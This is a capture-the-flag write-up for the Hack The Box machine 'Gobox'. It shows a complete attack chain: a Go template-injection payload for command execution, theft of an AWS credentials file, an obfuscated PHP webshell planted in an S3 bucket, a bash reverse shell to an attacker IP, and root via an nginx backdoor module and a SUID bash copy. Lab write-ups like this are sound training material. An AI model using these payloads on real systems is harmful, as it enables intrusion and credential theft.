

# [Gobox](https://app.hackthebox.com/machines/gobox)

```bash
nmap -p- --min-rate 10000 10.10.11.113 -Pn
```


After detection of open ports, let's do greater nmap scan here for this ports.

```bash
nmap -A -sC -sV -p22,80,4566,8080 10.10.11.113 -Pn
```


I start to enumeration my target's ports from port `8080`.


Let's look at web application.


I just fuzz login part, but there's nothing as interested.


Let's look at `Forgot Password` feature.




Also from `X-Forwarded-Server`, I see that `Go` language is used.


That's why I search `Template Injections` for `Go` language and find this [blog](https://exploit-notes.hdks.org/exploit/web/go-ssti/).


First, I tried this payload `{{ .ExecuteCmd "whoami" }}` which doesn't work as because there's no function called `ExecuteCmd`.


But from source code, I find that string should be `DebugCmd`.That's why I change `SSTI` (Server-Side Template Injection) payload as below.
```bash
{{ .DebugCmd "id" }}
```


I tried `reverse shell` payloads, but none of them worked.


Let's enumerate machine.

```bash
email={{ .DebugCmd "hostname" }}
```


From here, I know that this machine is located on `Cloud`.


Let's look at `aws` binary's location.
```bash
email={{ .DebugCmd "which aws" }}
```


As I am root, let's look at all files on my home directory.
```bash
email={{ .DebugCmd "ls -al ~" }}
```


Finally, I find file called `credentials` which contains sensitive credentials `aws_access_key_id` and `aws_secret_access_key`.

```bash
email={{ .DebugCmd "cat ~/.aws/credentials" }}
```


aws_access_key_id:SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz

aws_secret_access_key:SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz


Let's put these into my local `credentials` config file for `aws`.

```bash
echo {data} > ~/.aws/credentials
```


Now, let's look at `S3` buckets.
```bash
aws --endpoint-url http://10.10.11.113:4566 s3 ls
```


One thing comes to my mind, that I can put webshell into some location on target.
```bash
echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' > /tmp/dr4ks
```


By this way doesn't work and prohibited by `nginx`, that's why I will `obfuscate` this via `base64` encoding.


```bash
{{ .DebugCmd "echo -n PD9waHAgZWNobyBzaGVsbF9leGVjKCRfUkVRVUVTVFsiY21kIl0pOyA/Pg== | base64 -d > /tmp/dr4ks.php" }}
```


Then, I need to copy this file into `website` S3 bucket.
```bash
aws s3 cp /tmp/dr4ks.php s3://website/dr4ks.php
```


Let's browse this webshell.
```bash
curl http://10.10.11.113/dr4ks.php?cmd=id
```


Let's add our `reverse shell` into this payload to get shell.
```bash
curl http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.18/1337 0>%261'
```


Hola! I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


user.txt


Let's look at `modules` which are located on `/etc/nginx/modules-enabled`.


I find `50-backdoor.conf` file which says interesting data to me.


It is about exectuion of system commands, I looked at abusing of this module from [here](https://github.com/limithit/NginxExecute).


Let's find this file's location via `find` command.
```bash
find / -name ngx_http_execute_module.so 2>/dev/null
```


Let's get this file to read content.

First, we need to open http.server on target.
```bash
python3 -m http.server 8081
```


Let's download this file into our attacker machine.
```bash
wget http://10.10.11.113:8081/ngx_http_execute_module.so
```


I find correct syntax by `grepping` the `run` string.
```bash
strings ngx_http_execute_module.so | grep run
```


Let's check this backdoor via `curl` command.
```bash
curl http://127.0.0.1:8000?ippsec.run[id]
```


Now, I will give malicious script that makes copy of `/bin/bash` file and give `SUID` privilege to this file.


While I enter this payload, I need to make this `URL Encoded` for all characters.

```bash
curl "http://127.0.0.1:8000?ippsec.run[cp%20%2Fbin%2Fbash%20%2Ftmp%2Fdr4ks%3B%20chmod%204777%20%2Ftmp%2Fdr4ks]"
```


Let's run this copied `/bin/bash` file via `-p` option.
```bash
/tmp/dr4ks -p
```

root.txt

